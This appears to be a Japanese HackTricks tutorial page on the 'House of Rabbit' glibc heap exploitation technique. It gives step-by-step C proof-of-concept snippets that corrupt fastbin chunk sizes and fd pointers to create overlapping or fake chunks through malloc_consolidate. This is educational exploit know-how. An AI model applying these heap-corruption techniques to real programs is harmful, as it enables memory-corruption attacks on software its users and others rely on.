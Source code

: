 # ハウス・オブ・ラビット

{% hint style="success" %}
AWSハッキングの学習と練習:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングの学習と練習: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksのサポート</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェック！
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に参加するか、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォロー**してください。
* **HackTricks**と**HackTricks Cloud**のgithubリポジトリにPRを提出して**ハッキングトリックを共有**してください。

</details>
{% endhint %}

### 必要条件

1. **ファストビンのfdポインタまたはサイズを変更する能力**: これは、ファストビン内のチャンクのフォワードポインタまたはサイズを変更できることを意味します。
2. **`malloc_consolidate`をトリガーする能力**: これは、大きなチャンクを割り当てるか、トップチャンクをマージすることによって行うことができます。これにより、ヒープがチャンクを統合するようになります。

### ゴール

1. **オーバーラップするチャンクを作成する**: 他のチャンクと重なるように1つのチャンクを作成し、さらなるヒープ操作を可能にします。
2. **偽のチャンクを作成する**: アロケータをだますために、偽のチャンクをヒープ操作中に正当なチャンクとして扱わせます。

## 攻撃の手順

### POC 1: ファストビンチャンクのサイズを変更する

**目的**: ファストビンチャンクのサイズを操作して、オーバーラップするチャンクを作成します。

* **ステップ1: チャンクを割り当てる**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x40);  // Allocates another chunk of 0x40 bytes at 0x602050
malloc(0x10);                          // Allocates a small chunk to change the fastbin state
```
* **ステップ 2: チャンクを解放する**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
free(chunk2);  // Frees the chunk at 0x602050
```
* **ステップ 3: チャンクサイズの変更**
```cpp
chunk1[-1] = 0xa1;  // Modify the size of chunk1 to 0xa1 (stored just before the chunk at chunk1[-1])
```
* **ステップ 4: `malloc_consolidate`をトリガーする**
```cpp
malloc(0x1000);  // Allocate a large chunk to trigger heap consolidation
```
大きなチャンクを割り当てると、`malloc_consolidate` 関数がトリガーされ、ファストビン内の小さなチャンクがマージされます。`chunk1` の操作されたサイズにより、`chunk2` と重なるようになります。

統合後、`chunk1` は `chunk2` と重なり、さらなる悪用が可能になります。

### POC 2: `fd` ポインタの変更

**目的**: ファストビンの `fd` ポインタを操作してフェイクチャンクを作成します。

* **ステップ 1: チャンクの割り当て**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x100); // Allocates a chunk of 0x100 bytes at 0x602050
```
**説明**: 2つのチャンクを割り当て、1つは小さく、もう1つは大きくして、フェイクチャンクのためにヒープをセットアップします。

* **ステップ2: フェイクチャンクの作成**
```cpp
chunk2[1] = 0x31;  // Fake chunk size 0x30
chunk2[7] = 0x21;  // Next fake chunk
chunk2[11] = 0x21; // Next-next fake chunk
```
* **ステップ 3: `chunk1`を解放する**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
```
**説明**: `chunk1`を解放し、それをfastbinリストに追加します。

* **ステップ4: `chunk1`の`fd`を修正**
```cpp
chunk1[0] = 0x602060;  // Modify the fd of chunk1 to point to the fake chunk within chunk2
```
**説明**: `chunk1`の前方ポインタ(`fd`)を`chunk2`内のフェイクチャンクを指すように変更します。

* **ステップ 5: `malloc_consolidate`をトリガーする**
```cpp
malloc(5000);  // Allocate a large chunk to trigger heap consolidation
```
再度大きなチャンクを割り当てると、`malloc_consolidate` がトリガーされ、偽のチャンクが処理されます。

偽のチャンクは fastbin リストの一部となり、さらなる攻撃のための正当なチャンクとなります。

### 要約

**House of Rabbit** テクニックは、高速ビンのチャンクのサイズを変更して重複するチャンクを作成するか、`fd` ポインタを操作して偽のチャンクを作成することを含みます。これにより、攻撃者はヒープ内で正当なチャンクを偽造し、さまざまな形式の攻撃を可能にします。これらの手順を理解し、実践することで、ヒープの攻撃スキルを向上させることができます。
